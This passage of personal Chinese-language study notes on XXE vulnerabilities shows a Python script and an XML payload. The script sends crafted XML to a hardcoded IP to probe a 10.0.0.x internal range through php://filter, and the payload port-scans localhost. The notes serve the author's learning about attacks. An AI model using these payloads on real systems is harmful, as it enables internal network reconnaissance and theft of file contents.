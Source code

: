 ```python
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
continue
```

**2.3.2HTTP内网主机端口扫描**

探测内网主机以后，还可以用类似的方法实现端口扫描

比如传入

```xml
<?xml version="1.0" encoding="utf-8"?>  
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [  
<!ELEMENT data (#PCDATA)>  
]>
<data>4</data>
```

可以使用bp-intruder-Sniper

![image-20230720114526152](C:\Users\spdadi\AppData\Roaming\Typora\typora-user-images\image-20230720114526152.png)

MORE

等php水平提高一些 and 学一学XML再继续

实现盲注 文件上传 钓鱼 DOS RCE...







 [XXE漏洞详解 - 清茶先生 - 博客园.url](..\..\..\XXE漏洞详解 - 清茶先生 - 博客园.url)  [(5条消息) XXE漏洞详解（全网最详细）_xxe漏洞成因_貌美不及玲珑心，贤妻扶我青云志的博客-CSDN博客.url](..\..\..\(5条消息) XXE漏洞详解（全网最详细）_xxe漏洞成因_貌美不及玲珑心，贤妻扶我青云志的博客-CSDN博客.url)  [一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区.url](..\..\..\一篇文章带你深入理解漏洞之 XXE 漏洞 - 先知社区.url)  [绕过WAF保护的XXE - 先知社区.url](..\..\..\绕过WAF保护的XXE - 先知社区.url) 

